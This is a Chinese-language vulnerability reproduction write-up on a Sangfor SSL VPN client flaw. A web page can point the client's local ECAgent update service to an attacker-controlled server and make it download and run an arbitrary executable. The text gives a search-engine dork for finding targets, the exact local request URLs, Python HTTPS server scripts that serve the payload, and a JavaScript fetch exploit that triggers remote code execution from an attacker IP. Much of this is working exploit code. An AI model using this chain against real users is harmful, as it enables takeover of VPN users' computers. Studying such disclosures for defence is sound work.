 # 深信服 SSL VPN 客户端远程文件下载

## 漏洞描述

深信服 SSL VPN 客户端存在远程文件下载，且文件可控下载后可执行

## 漏洞影响

```
深信服 SSL VPN
```

## 漏洞复现

百度"intitle: 欢迎使用SSL VPN"，随便找一个地方下载VPN客户端下载安装：



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091917573.png)



安装完之后访问VPN的页面，发现VPN会自动下载组件更新：



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091917218.png)



这些请求均为GET请求并附带着一些参数，我们把它一一列下来：



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091917102.png)



本地来看一下这个`54530`端口对应的进程是什么：

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091917296.png)



发现这个端口是ECAgent.exe开启的，寻找到对应进程文件所在位置：



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091917851.png)



确认这是XXX SSLVPN的程序，那么就可以将两者联系到一起，访问VPN登录首页会触发对`127.0.0.1`的访问从而引起VPN进行组件更新。



通过以上的分析我们猜测了整个大致流程，但我们设想一下如果我们可以控制本地的更新指向我们的服务器，然后将更新的组件内容替换成恶意程序，当程序启动的时候就启动了恶意程序，这样我们可以拿到安装VPN客户端的使用者PC权限。



再回到之前的本地链接列表，根据对英文的理解，参数op的值应该为其具体对应要执行的动作：



```plain
InitECAgent -> 初始化
GetEncryptKey -> 获取加密密钥
DoConfigure -> 配置
CheckReLogin -> 检查重新登录
CheckProxySetting -> 检查代理设置
UpdateControls -> 更新控制
DoQueryService -> 查询服务
```



第一个初始化的请求存在可控参数arg1：



```plain
https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=vpn.xxx.edu.cn%20443&callback=EA_cb10000
```



参数`arg1=vpn.xxx.edu.cn%20443`，对应值也就是HOST+空格+端口的格式，看到这里基本上就会有一个思路，客户端更新控件是不是根据这个指定值向其发送请求更新的呢？我们可以只替换第一个初始化请求的arg1参数为`172.20.10.2 8000`，然后本地搭建一个HTTP服务：



```plain
python -m SimpleHTTPServer
```



其他的请求原封不动，依次请求一遍那一份URL



服务端成功收到请求，但是却出现了错误的提示：



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091917373.png)

首先我们已经验证了自己的猜想，更新地址是自己可控的，客户端确实会向我们指定的服务端发送请求，但由于出现了错误我们不知道客户端访问了哪个文件，也不知道访问文件之后做了什么动作。



现在要做的就是搭建一个客户端可以正常访问的请求，通过这个错误大致可以知道，我搭建的服务端协议和客户端请求使用的协议不一致，本机抓个包发现客户端请求的是 HTTPS 协议，这就需要搭建一个 HTTPS 服务了。



如下脚本基于Python库建立一个 HTTPS 服务：



```python
# openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes

import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8000), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```



搭建起一个 HTTPS 环境后再次复现如上请求，服务端收到日志：



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091918528.png)



可以看见客户端会访问两个文件：



```plain
/com/WindowsModule.xml
/com/win/XXXUD.exe
```



先不管xml文件是怎么样的，可执行文件(exe)是需要重视的，但是这里通过提示可以看出客户端发出的请求是POST请求，但我们所写的Python脚本建立的HTTPS服务并不支持POST方法，我们需要重写一下Handler：



```python
import BaseHTTPServer
import SimpleHTTPServer
import cgi
import ssl

class ServerHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_POST(self):
        form = cgi.FieldStorage()
        SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)

Handler = ServerHandler

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8000), Handler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```



最终如上脚本支持`POST`方法，当时用`POST`方法请求时即返回文件内容。



最后，拖一个`calc.exe`（计算器）到HTTPS网站根目录下的`/com/win/XXXUD.exe`。



依次请求（**经过多次复现发现，这三个请求才是重点的，其他的可以忽略**）：



```plain
https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=172.20.10.2 8000&callback=EA_cb10000

https://127.0.0.1:54530/ECAgent/?op=CheckReLogin&arg1=3408a894633162c62188f98e92a221967dccfa5aafbd79b576714b4d1c392a4ad4b220d698efcd939c3b1b37467023e9380ee3abf0e492ee2efc736de757b80e973fe4c7d8af1af211a3f7ff3433cd9de975c76583efe7251dd1c0656f4384832998630359b65beb131cd8d287712462fa1b9e9acbc96dcc678b84cd57178c1a&token=50065256e83ff1bb9e01757d0d22b669&callback=EA_cb10003

https://127.0.0.1:54530/ECAgent/?op=UpdateControls&arg1=BEFORELOGIN&callback=EA_cb10005
```



会发现客户端请求之后，将文件下载到本地并启动该程序，成功弹出计算器：



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091918246.png)



Exploit很简单，当用户打开某个页面时访问那三个本地请求即可，这里使用JavaScript的fetch去实现即可：



```javascript
<script>
    // 服务器IP和端口
    var ip = "172.20.10.2";
    var port = "4443";
    var poc_list = ["https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=" + ip + " " + port + "&Guid=&callback=EA_cb10000", "https://127.0.0.1:54530/ECAgent/?op=CheckReLogin&arg1=3616f5b2ad1fe9b62b3d34509daa11259782919108eb2bebe59d64c808c3a079c6f6ae36b6ff1d63cb8067d08a9db72b70d912bfdb8bdc6ca18140cfa0ffb9e88b85acebf4bf544f71ff0fc662b9b95a8e939928b847018c106e1a96686e1ec3274a89ae0b8f77fc3d53a5ce0f1eec9a0ce8a5e4e2c927331cd94a67d5360a3e&token=c4202416e283e60809d3b1e04e4bae6b&Guid=&callback=EA_cb10003", "https://127.0.0.1:54530/ECAgent/?op=UpdateControls&arg1=BEFORELOGIN&Guid=&callback=EA_cb10005"];
    for(var i=0; i<poc_list.length; i++){
        setTimeout(fetch(poc_list[i]),"2000");
        
    }
</script>
```



其次就是需要一个HTTPS服务端的Python脚本，并且在脚本根目录下的`/com/win/`目录下有一个`XXXUD.exe`文件。



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091918424.png)



## 参考文章

https://mp.weixin.qq.com/s/XbsxziIFKx8VhGd-pv0Ghg